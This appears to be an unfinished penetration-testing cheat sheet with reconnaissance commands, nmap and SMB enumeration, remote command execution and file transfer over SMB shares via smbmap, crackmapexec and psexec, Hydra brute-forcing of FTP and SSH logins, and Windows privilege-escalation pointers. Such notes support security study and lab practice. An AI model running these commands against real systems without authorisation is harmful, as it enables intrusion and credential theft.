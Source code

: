 ## Google Dorck:
```
site:      ===>
intitle:   ===>
cache:     ===>
inurl:     ===> 
filetype:  ===>
```

## Passive Recon:
```
host:     ===>
whatweb:  ===>
whois:    ===>
dig:      ===>
```
## Dns Recon:
```
dnsrec  ===>
dnsenum ===>
```
## Waf Detections:
```
wafwoof ===>
```

## Host Discovering:
```
nmap -sn 1.1.1.0/20 
sudo netdiscover -i ent0 -r 1.1.1.0/20 
```
## Network Maping:
```
-wireshark using arpscan
  sudo arp-scan -I tuno -g 1.1.1.1/20
-fping
  fping -I tun0 -g 1.1.1.0/20 -a  2>/dev/null
```
## Nmap switch:
```
 * -Pn
 * -sU
 * -sCV
 * -PA
 * -T (0-5)
```
## SMB:
Nmap Script: 
 ```
 --script smb-protocols
 --script smb-security-mode
 --script smb-enum-sessions
 --script smb-enum-shares
 --script smb-enum-users
```

SmbMap:
 ```
 smbmap -u username -p "pass" -H 1.1.1.1
 smbmap -u username -p pass -H 1.1.1.1 -x "ipconfig"
 smbmap -u username -p pass -H 1.1.1.1 -r 'C$'
 smbmap -u username -p pass -H 1.1.1.1 --upload '/your-file-path/' 'C$\filename' 
 smbmap -u username -p pass -H 1.1.1.1 --download 'C$\download-file-path'
```
SmbClient:
```
 smbclient -L \\\\1.1.1.1\\
 smbclient //1.1.1.1/folder -N
 smbclient -L 1.1.1.1 -U username
 ```
smb with crackmapexe:
```
crackmapexec smb <ip> -u 'username' -p /passPATHfile/
crackmapexec smb <ip> -u username -p pass -X "whomai"
```
Smb with PsExec:
```
 psexec.py username@1.1.1.1
```

## MYSql:
```
mysql -h 1.1.1.1 -u username

Nmap Script:
 --script=mysql-empty-password
```

## FTP With Hydra:
```
hydra -L /usernamePathfile/ -P /passPATHfile/ <ip> ftp
hydra -l username -P /passPATHfile/ <ip> ftp 
```

## SSH With Haydra:
```
hydra -L /usernamePathfile/ -P /passPATHfile/ -t4 <ip> ssh
hydra -l username -P /passPATHfile/ <ip> ssh
```
## Samba:
```
hydra -L /usernamePathfile/ -P /passPATHfile/ -t4 <ip> ftp
smbclient -u username -p pass -H <ip>
enum4linux -a -u username -p pass <ip>
```

## Windows Privilege Esclations:
```
# windows kernel   ===> use suggester module in metasploit
# By Passing UAC   ===> use UAC tool / or use bypassuac_injections module in metasploit
# Access Token Impersonation
 ```
## linux Pruvilege Esclations:
```


```




   





